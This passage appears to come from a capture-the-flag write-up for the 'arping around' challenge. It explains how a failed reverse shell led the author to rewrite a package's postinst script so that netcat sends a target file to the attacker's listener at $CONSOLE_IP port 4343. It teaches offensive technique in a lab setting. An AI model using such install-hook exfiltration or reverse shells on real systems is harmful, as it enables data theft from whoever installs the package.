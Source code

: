 ![Reverse Shell Fail](9-arping-around/img/reverse_shell_fail.png)
Since the netcat process was able to open a session, it may be possible to cat out the contents to the target file before the session gets killed. This is done by modifying the `postinst` script to read the file rather then exec a reverse shell. `nc $CONSOLE_IP 4343 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. After making these changes the contents of the file are captured by the netcat listener!